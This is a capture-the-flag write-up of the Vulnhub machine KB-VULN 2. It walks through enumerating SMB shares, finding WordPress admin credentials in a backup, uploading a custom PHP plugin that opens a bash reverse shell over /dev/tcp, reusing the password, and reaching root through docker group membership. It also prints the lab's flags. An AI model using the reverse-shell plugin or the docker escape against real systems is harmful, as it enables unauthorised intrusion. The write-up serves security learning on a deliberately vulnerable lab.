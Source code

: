 ```yaml
---
title: Vulnhub - KB-VULN 2
description: My writeup on KB-VULN 2 box.
categories:
 - vulnhub
tags: vulnhub smb wordpress docker
---
```


![](https://i.imgur.com/BYdU05H.png)

You can find the machine there > [KB-VULN 2](https://www.vulnhub.com/entry/kb-vuln-2,562/){:target="_blank"}

## Summary

Time for the part 2 haha :P Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.20
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 15:44 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00048s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:56:FE:62 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.54 seconds
$ nmap -p 21,22,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 15:44 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00039s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:99:01:23:fe:c4:84:ef:14:55:87:da:a3:30:6f:50 (RSA)
|   256 cb:8e:e1:b3:3a:6e:64:9e:0f:53:39:7e:18:9d:8b:3f (ECDSA)
|_  256 ec:3b:d9:53:4a:5a:f7:32:f2:3a:f7:a7:6f:31:87:52 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Let's start with SMB enumeration, let's list the shares.

```
$ smbmap -H $ip
[+] Guest session   	IP: 192.168.1.20:445	Name: kb-server.zte.com.cn                              
        Disk                                        Permissions	Comment
	----                                               -----------	-------
	Anonymous                                         	READ ONLY	  OPEN YOUR EYES!
	IPC$                                              	NO ACCESS	  IPC Service (Samba Server 4.7.6-Ubuntu)
```

Let's connect to anonymous & download the file.

```
$ smbclient //$ip/Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: > ls
  .                                   D        0  Thu Sep 17 13:58:56 2020
  ..                                  D        0  Wed Sep 16 13:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 13:58:56 2020

		14380040 blocks of size 1024. 8275680 blocks available
smb: > get backup.zip
getting file \backup.zip of size 16735117 as backup.zip (83809.6 KiloBytes/sec) (average 83809.7 KiloBytes/sec)
smb: > exit
```

`backup.zip` has a .txt file and a wordpress installation folder. The .txt has some creds in:

```
$ cat remember_me.txt 
Username:admin
Password:MachineBoy141
```

Let's check port 80 now, we can start with a `dirb` scan.

```
$ dirb http://192.168.1.20/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 24 15:58:13 2020
URL_BASE: http://192.168.1.20/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.20/ ----
+ http://192.168.1.20/index.html (CODE:200|SIZE:10918)                                                                                                                                  
+ http://192.168.1.20/server-status (CODE:403|SIZE:277)                                                                                                                                 
==> DIRECTORY: http://192.168.1.20/wordpress/
```

Nice! a wordpress site, now makes sense. Takes time to load and we endup with an error message probably virtual hosts we can see on URL this:

![](https://i.imgur.com/IW2itrt.png)

Let's add it to `/etc/hosts`:

```
$ nano /etc/hosts
$ cat /etc/hosts
..data..
192.168.1.20    kb.vuln
```

Now we can head to `/wp-admin` and login with the creds we found before. `admin:MachineBoy141`

## Shell as www-data

Now i'll show you a way to make a custom malicious plugin for reverse shell! This will be our plugin:

```
<?php
   /*
   Plugin Name: pwned
   Version: 6.9
   Author: whoknows
   */

system("bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'");
?>
```

Let's zip it:

```
$ zip plugin.zip shell.php 
  adding: shell.php (deflated 11%)
```

Follow my steps:

![](https://i.imgur.com/H5VaTi8.png)

![](https://i.imgur.com/av4IDKC.png)

![](https://i.imgur.com/z6baZHl.png)

![](https://i.imgur.com/LlNDDNP.png)

Once you press activate plugin we get a reverse shell back! :sunglasses:

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@kb-server:/var/www/html/wordpress/wp-admin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@kb-server:/var/www/html/wordpress/wp-admin$ 
```

## Shell as kbadmin

We can use the same password now to privesc to user kbadmin.

```
www-data@kb-server:/var/www/html/wordpress/wp-admin$ su - kbadmin
Password: MachineBoy141

kbadmin@kb-server:~$ whoami;id
kbadmin
uid=1000(kbadmin) gid=1000(kbadmin) groups=1000(kbadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),999(docker)
```

## Shell as root

User kbadmin is in docker group we can simply run this and get root shell!

```
kbadmin@kb-server:~$ groups
kbadmin adm cdrom sudo dip plugdev lxd docker
```

```
kbadmin@kb-server:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
a4a2a29f9ba4: Pull complete 
127c9761dcba: Pull complete 
d13bf203e905: Pull complete 
4039240d2e0b: Pull complete 
16a91ffa6f29: Pull complete 
Digest: sha256:eb6be3ee1f9b2fd6e3ae6d4fda81a80bfdf21aad9bde6f1a5234f1baa58d4bb3
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flags:

```
# cat flag.txt
dc387b4cf1a4143f562dd1bdb3790ff1
# cat /home/kbadmin/user.txt
03bf4d20dac5644c75e69e40bad48db0
```

Good one! :smile:
